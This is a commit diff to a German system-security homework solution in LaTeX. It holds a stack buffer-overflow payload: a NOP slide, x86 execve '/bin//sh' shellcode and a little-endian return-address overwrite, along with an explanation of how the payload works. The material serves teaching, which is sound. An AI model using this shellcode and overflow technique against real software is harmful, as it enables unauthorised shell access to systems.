

Before and after one commit to Lemrator/Homework, a LaTeX document (Übung 3/syssec.tex): part of page 3 of 5, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Update syssec.tex

```diff
--- a/Übung 3/syssec.tex
+++ b/Übung 3/syssec.tex
@@ -51,8 +51,8 @@ Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\ba
 \subsection*{b)}
 Der Kommandozeilenparamter könnte wie folgt aussehen:\newline
 \begin{lstlisting}[caption={Kommandozeilenparamter ($\hat{=}$ einer Zeile)},captionpos=b]
-$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x31$\backslash$xc9$\backslash$xf7$\backslash$xe1$\backslash$x51$\backslash$x68$\backslash$x2f$\backslash$x2f$\backslash$x73
-$\backslash$x68$\backslash$x68 $\backslash$x2f$\backslash$x62$\backslash$x69$\backslash$x6e$\backslash$x89$\backslash$xe3$\backslash$xb0$\backslash$x0b$\backslash$xcd$\backslash$x80$\backslash$x90$\backslash$x90$\backslash$x90$\backslash$x90
+\x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73
+\x68\x68 \x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90
 \xEF\xBE\xAD\xDE
 \end{lstlisting}
 Die Instruktionen ''$\backslash$x90'' dienen hierbei als NOP-slide und als zusätzliches Padding um den Buffer zu überschreiben. Am ende muss die Adresse \texttt{0xDEADBEEF} in Little-Endian stehen. Damit wird die return-Adresse überschrieben und der Shellcode wird dadurch aufgerufen.\newline
```
